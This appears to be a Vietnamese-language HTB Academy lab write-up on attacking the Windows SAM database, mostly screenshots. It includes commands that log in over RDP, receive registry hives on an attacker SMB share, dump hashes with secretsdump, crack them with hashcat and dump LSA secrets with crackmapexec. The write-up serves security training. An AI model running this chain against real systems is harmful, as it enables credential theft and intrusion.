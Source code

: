 <h1>Attacking SAM</h1>

![image](https://github.com/user-attachments/assets/b9dc8a76-cf70-47d7-b600-71a8faef7b51)

![image](https://github.com/user-attachments/assets/b3544515-a062-4d3d-9b72-188eb89dbf8c)

Chạy `nmap -sV 10.129.195.118` thì có nhiều port mở, chú ý đến rdp 3389:

![image](https://github.com/user-attachments/assets/cb08fa66-0653-409f-b909-e2aeae474206)

`xfreerdp /u:'Bob' /p:'HTB_@cademy_stdnt!' /v:10.129.195.118` vào và lấy sam trong đó:

![image](https://github.com/user-attachments/assets/e5d2fd6f-b43c-4fd3-8118-e1d1aa3da864)

Chạy `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/htb-ac-1594028` để đợi file sam từ máy windows:

![image](https://github.com/user-attachments/assets/b55e23fc-f46f-4ff7-99aa-7e0af646e2b6)

![image](https://github.com/user-attachments/assets/85707092-f68c-45ee-82b7-21d3d9475f13)

Và tôi đã lấy được về máy:

![image](https://github.com/user-attachments/assets/ceb169c7-fbe6-491b-a2c3-666a43ecc8b6)

Dùng `python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL`  để lấy thông tin từ các file sam:

![image](https://github.com/user-attachments/assets/2c1305c8-207a-45e5-99a1-3805e13ed8ab)

Thêm các hash vào file pass.txt và chạy `sudo hashcat -m 1000 /home/htb-ac-1594028/pass.txt rockyou.txt` để brute force hash:

![image](https://github.com/user-attachments/assets/c7629259-7ed6-4fcb-bbc8-5cc4b9fa7c7d)

![image](https://github.com/user-attachments/assets/59daab20-e0a1-4b2e-8272-3b7452facf86)

![image](https://github.com/user-attachments/assets/431e8d7a-c871-4f93-b399-a8e676b8f8b2)

Cái `31d6cfe0d16ae931b73c59d7e0c089c0` không thấy kết quả nhưng mà đã được thêm câu:

![image](https://github.com/user-attachments/assets/cbe36631-6e93-4900-bce0-b105f69c6e85)

Dùng `crackmapexec smb 10.129.195.118 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa` cho câu cuối:

![image](https://github.com/user-attachments/assets/8ca8ffb0-6f97-4e06-8df3-991614ac2712)

![image](https://github.com/user-attachments/assets/ca1d7325-09cc-490e-a40d-3643460d73b0)

Tìm hiểu thêm thông tin:

![image](https://github.com/user-attachments/assets/8c177c88-7919-4d13-9270-dc1d2795a358)

